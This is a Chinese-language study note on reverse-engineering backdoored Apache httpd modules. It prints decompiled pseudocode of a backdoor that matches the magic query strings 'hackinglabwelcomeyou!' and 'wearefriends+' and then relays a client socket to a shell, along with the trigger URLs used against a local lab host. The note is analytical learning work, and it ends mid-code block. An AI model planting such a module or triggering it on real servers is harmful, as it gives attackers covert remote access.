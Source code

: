 # 基础知识

以sub开头加地址的是没有函数表也不是debug的

# 先分析一个简单的
地址：[Apache-HTTP-Server-Module-Backdoor](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor)

**注意centos这类系统安装的是httpd-devel，不是apache2-dev，然后记得重启服务**


> 这个是使用了一个popen的函数执行了系统命令，配合源码，感觉比较容易看懂

![title](https://i.loli.net/2019/05/14/5cda26a7ac7a028583.png)


# 再来分析这个

首先，根据上面的思路，发现没有白底加粗的自定义的函数，，，，然后找到一个_init_proc初始化的一个函数,直接F5（目前还就会这一个操做）
```
void (*init_proc())(void)
{
  start();
  sub_1010();
  return sub_2280();
}
```
start()应该就是类似初始化的一些操做。和上一个对比了一下，发现并没有什么异常接下来查看sub_1010代码如下
```
signed __int64 __fastcall sub_2101(__int64 a1)
{
  int v2; // [rsp+14h] [rbp-Ch]
  __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = ap_get_module_config(*(_QWORD *)(*(_QWORD *)(a1 + 8) + 104LL), (__int64)&core_module);
  if ( v3 )
    v2 = *(_DWORD *)(v3 + 8);
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "hackinglabwelcomeyou!")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "hackinglabwelcomeyou!") )
  {
    process_client(256, v2);
  }
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "wearefriends+")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "wearefriends+") )
  {
    process_client(512, v2);
  }
  return 0xFFFFFFFFLL;
}
```
先读取了一个配置文件（后来我查了一下ap_get_module_config，应该是还可以读取url的一些信息），然后根据这个信息得到v2然后做了两个字符串的比较分别执行了process_client(256, v2)和process_client(512, v2)
```
void __fastcall __noreturn process_client(int a1, int a2)
{
  unsigned int v2; // edx
  int v3; // eax
  unsigned int v4; // edx
  ssize_t v5; // rax
  ssize_t v6; // rax
  char s1; // [rsp+10h] [rbp-10A0h]
  fd_set readfds; // [rsp+1010h] [rbp-A0h]
  int buf; // [rsp+1090h] [rbp-20h]
  int v10; // [rsp+1094h] [rbp-1Ch]
  int v11; // [rsp+1098h] [rbp-18h]
  int v12; // [rsp+109Ch] [rbp-14h]

  buf = a1;
  v10 = write(pipe_A[1], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  v10 = read(pipe_B[0], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  if ( buf == 16 )
    exit(0);
  while ( 1 )
  {
    memset(&readfds, 0, sizeof(readfds));
    v11 = 0;
    v12 = (unsigned __int64)&buf;
    v2 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    readfds.fds_bits[pipe_B[2 * buf] / 64] |= 1LL << (((v2 + pipe_B[2 * buf]) & 0x3F) - v2);
    readfds.fds_bits[a2 / 64] |= 1LL << a2 % 64;
    v3 = a2;
    if ( pipe_B[2 * buf] >= a2 )
      v3 = pipe_B[2 * buf];
    v10 = v3;
    if ( select(v3 + 1, &readfds, 0LL, 0LL, 0LL) < 0 )
      exit(0);
    v4 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    if ( !((readfds.fds_bits[pipe_B[2 * buf] / 64] >> (((v4 + pipe_B[2 * buf]) & 0x3F) - v4)) & 1) )
      goto LABEL_24;
    v10 = read(pipe_B[2 * buf], &s1, 0x1000uLL);
    if ( v10 > 0 )
    {
      if ( !strncmp(&s1, &s2, 4uLL) )
      {
        shutdown(a2, 2);
        exit(0);
      }
      v5 = send(a2, &s1, v10, 0);
      if ( v5 == v10 )
      {
LABEL_24:
        if ( !((readfds.fds_bits[a2 / 64] >> a2 % 64) & 1) )
          continue;
        v10 = recv(a2, &s1, 0x1000uLL, 0);
        if ( v10 > 0 )
        {
          v6 = write(pipe_A[2LL * buf + 1], &s1, v10);
          if ( v6 == v10 )
            continue;
        }
      }
    }
    shutdown(a2, 2);
    write(pipe_A[1], &buf, 4uLL);
    exit(0);
  }
}
```
> 这个就没有之前那么简单了，好像看一眼源码啊

综合一下上面的分析尝试访问下面两个url
```
view-source:http://192.168.72.137/?wearefriends+
回显rootme-0.3 ready，说明的确是这样用的

http://192.168.72.137/?hackinglabwelcomeyou!
无线连接，感觉有点像反弹shell时候的状态，而且上面的的函数命名为process_client有点可能是弹shell吧，那就是正向连接和反弹shell，正向连接的话防火墙并没有开放其他端口，反弹的话程序中也没有IP字段
```

> 感觉这里就遇到了瓶颈，对这个linux的动态链接库so还是了解的太少了，后来有对照着看了一下mod_version.so也没对比出东西来

放一些前面过程查询到的一些资料连接

apache动态链接库函数的一些说明
- [关于ap_get_module_config的一个问题](https://grokbase.com/t/apache/modules-dev/06amwtemvp/question-about-ap-get-module-config) 就是这个问题让我发现这个有可能是是根据url上提交参数的方式执行的
- [apache动态链接库里面的函数官方说明](https://ci.apache.org/projects/httpd/trunk/doxygen/group__APACHE__CORE__CONFIG.html#gab024c5a586118de1faaf48a7f41de025)

关于动态链接库的一些基础知识
- [解析如何在C语言中调用shell命令的实现方法](https://www.cnblogs.com/sky-heaven/p/4687489.html)讲了三个system()、popen()、vfork(),不知道全不全
- [C/C++ 静态链接库(.a) 与 动态链接库(.so)](http://www.cnblogs.com/52php/p/5681711.html)说了一下动态链接库的基础知识
- [Linux动态链接库.so文件的命名及用途总结](http://blog.sina.com.cn/s/blog_3ee731bc0102xx9n.html),里面提到一个有意思的命令ldd +可执行程序 可以查看这个程序加载了那些动态链接库（要是面试ali的时候知道这个就好了）


然后还学到了一个新的命令
```
``